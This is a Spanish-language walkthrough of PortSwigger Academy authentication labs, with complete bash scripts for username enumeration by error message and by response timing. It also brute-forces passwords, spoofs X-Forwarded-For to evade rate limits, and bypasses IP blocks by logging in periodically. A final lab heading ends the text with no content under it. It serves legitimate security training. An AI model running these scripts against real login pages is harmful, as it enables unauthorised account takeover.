

# Authentication - PortSwigger

## 1. Lab: Username enumeration via different responses


Extraemos los datos necesarios para hacer la consulta:	

```bash
https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login
csrf=JqMWKgtoS0cIGjdNp8PL3uY44N4xeePx&username=a&password=a
```

Escribimos un script en bash para solucionar el problema:

```bash
#!/bin/bash

URL='https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`
	
	if echo $RESULT | grep -o "Invalid username" > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done
```

Ejecutamos el programa y vemos que valida un usuario.



Verificamos en la pagina, y vemos que si funciona.


Ahora extendemos el script para probar con las contraseñas.

```bash
#!/bin/bash

URL='https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`

	if echo $RESULT | grep -o "Invalid username" > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done

for PASS in `cat password.txt`;do
        DATA='csrf='$CSRF'&username='$USER'&password='$PASS
        RESULT=`curl $URL -d $DATA -b $COOKIE -s`

        if echo $RESULT | grep -o "Incorrect password" > $NULL
        then
                echo "Incorrect creds: $USER:$PASS"
        else
                echo "Valid creds: $USER:$PASS"
                break
        fi
done
```

Ejecutamos el nuevo script y obtenemos el resultado siguiente


Lo probamos en el sitio web para verificar si es cierto.


Y para culminar con el laboratorio accedemos a la seccion **My account**.


## 2. Lab: Username enumeration via subtly different responses

Para este ejercicio debemos de enumerar el usuario que tiene una variacion pequeña entre los errores.


```bash
https://ac5f1f6e1e51c1a980554be900c700f2.web-security-academy.net/login
csrf=ok1ahDjlVNE1Q2ZHTa0wP5fZd6C8BtIN&username=a&password=a
```

Como nos dicen que hay una pequeña variacion en el mensaje de error, entonces vamos a pobrar con todo el payload completo de error el cual es **<p class=is-warning>Invalid username or password.</p>**

```bash
#!/bin/bash

URL='https://ac5f1f6e1e51c1a980554be900c700f2.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do

	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`
    
	if echo $RESULT | grep -F '<p class=is-warning>Invalid username or password.</p>' > $NULL
	#Fijarse que puse -F porque estaba considerando el . como una expresion regular
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done
```

Ejecutando el codigo obtenemos el usuario valido.


Ahora, agregamos el codigo suficiente para obtener la contraseña.

```bash
#!/bin/bash

URL='https://ac5f1f6e1e51c1a980554be900c700f2.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`
    
	if echo $RESULT | grep -F '<p class=is-warning>Invalid username or password.</p>' > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done

for PASS in `cat password.txt`;do
        DATA='csrf='$CSRF'&username='$USER'&password='$PASS
        RESULT=`curl $URL -d $DATA -b $COOKIE -s`

        if echo $RESULT | grep -o "Invalid username or password" > $NULL
        then
                echo "Incorrect creds: $USER:$PASS"
        else
                echo "Valid creds: $USER:$PASS"
                break
        fi
done
```

Corremos el script y obtenemos las credenciales:


Nos logeamos e ingresamos a la seccion **My acount**.


## 3. Lab: Username enumeration via response timing

```bash
https://ac591f871e61f7ab805b171800bf006e.web-security-academy.net/login
csrf=zus2HXTmtFPFdOSnT7JHTTuVSFIY5KAQ&username=sd&password=sd
```

Escribiendo el script, tendremos el siguiente.

```bash
#!/bin/bash

URL='https://ac591f871e61f7ab805b171800bf006e.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
PASS=`python -c "print 'A'*2000"`
#USER="wieners"

N=1

for USER in `cat user.txt`;do

	DATA='csrf='$CSRF'&username='$USER'&password='$PASS
	RESULT=`curl $URL -d $DATA -b $COOKIE -H "X-Forwarded-For: 192.168.0.$N" -w %{time_total} -o $NULL -s`
    TIME=`echo $RESULT | cut -d "." -f 1`
    
    if [[ $TIME -gt 5 ]]
    then
        echo "Valid user: $USER"
        break
    else
        echo "Invalid user: $USER"
    fi
    
	N="$[ $N + 1 ]"
done

for PASS in `cat password.txt`;do

        DATA='csrf='$CSRF'&username='$USER'&password='$PASS
        RESULT=`curl $URL -d $DATA -b $COOKIE -s -H "X-Forwarded-For: 192.168.0.$N"`

        if echo $RESULT | grep -o "password" > $NULL
        then
                echo "Incorrect creds: $USER:$PASS"
        else
                echo "Valid creds: $USER:$PASS"
                break
        fi
        N="$[ $N + 1 ]"
done
```

Detectamos las credenciales con el usuario:


Validamos que las credenciales son correctas:


## 4. Lab: Broken brute-force protection, IP block

```
Your credentials: wiener:peter
Victim's username: carlos
```

```
https://acdc1fe11eb6d006807363a8001d00fb.web-security-academy.net/login
csrf=zus2HXTmtFPFdOSnT7JHTTuVSFIY5KAQ&username=sd&password=sd
```

Escribiremos un script para desarrollar este ejercicio el cual será el siguiente:

```bash
#!/bin/bash

URL='https://acdc1fe11eb6d006807363a8001d00fb.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
USER="carlos"
USER0="wiener"
PASS0="peter"
N=1
for PASS in `cat password.txt`;do

    if [ $[ $N % 2 ] == 0 ]
    then
        #Nos logeamos con la cuenta existente
        #Para reiniciar el contador. :D
        DATA2='csrf='$CSRF'&username='$USER0'&password='$PASS0
        curl $URL -d $DATA2 -b $COOKIE -s > $NULL
    fi
    DATA='csrf='$CSRF'&username='$USER'&password='$PASS
    RESULT=`curl $URL -d $DATA -b $COOKIE -s`

    if echo $RESULT | grep -o "Incorrect password" > $NULL
    then
        echo "Incorrect creds: $USER:$PASS"
    else
        echo "Valid creds: $USER:$PASS"
        break
    fi
    N="$[ $N + 1 ]"
done
```

Obtenemos el resultado del script.


Al probarlo en el sitio web verificamos que completamos el nivel.


## 5. Lab: Username enumeration via account lock

